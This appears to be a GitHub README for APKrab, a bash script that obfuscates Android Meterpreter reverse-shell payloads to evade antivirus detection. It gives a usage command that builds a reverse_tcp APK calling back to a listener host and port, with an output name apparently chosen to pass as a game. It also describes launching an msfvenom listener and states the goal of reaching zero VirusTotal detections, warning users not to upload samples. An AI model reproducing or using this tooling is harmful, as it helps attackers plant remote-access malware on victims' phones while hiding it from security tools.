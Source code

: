 # Inspired by
This script is inspired by jbreed's ![apkwash](https://github.com/jbreed/apkwash) (Thanks a lot!)

# Dependencies
To use APKrab you first need to install apktool and default-jdk

# APKrab
APKrab is a dummy bash script to obfuscate android meterpreter by mixing names and permissions in AndroidManifest.xml and other files and directories
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_Icsbs5mvuD.jpg)

# Usage
First we must give execution permissions with chmod +x APKrab.sh
Then we can do for example:
./APKrab.sh -p android/meterpreter/reverse_tcp -H 10.0.0.16 -P 7777 -o amon-us.apk

APKrab also has default options we can use them with:
./APKrab.sh -g
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_ZW2I2Xya03.jpg)

At the end APKrab will ask to generate a msfvemon listener if so then it will ask to launch it
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_Icsbs5mvuD.jpg)

# virustotal results (DONT UPLOAD YOUR SAMPLES TO VIRUSTOTAL)
In this example we hit 16/63 in virustotal so hope with the time and your modifications we can hit 0 flagged
![Preview](https://github.com/whoisML/APKrab/blob/main/image/vmplayer_Wdeanc6BeL.jpg)

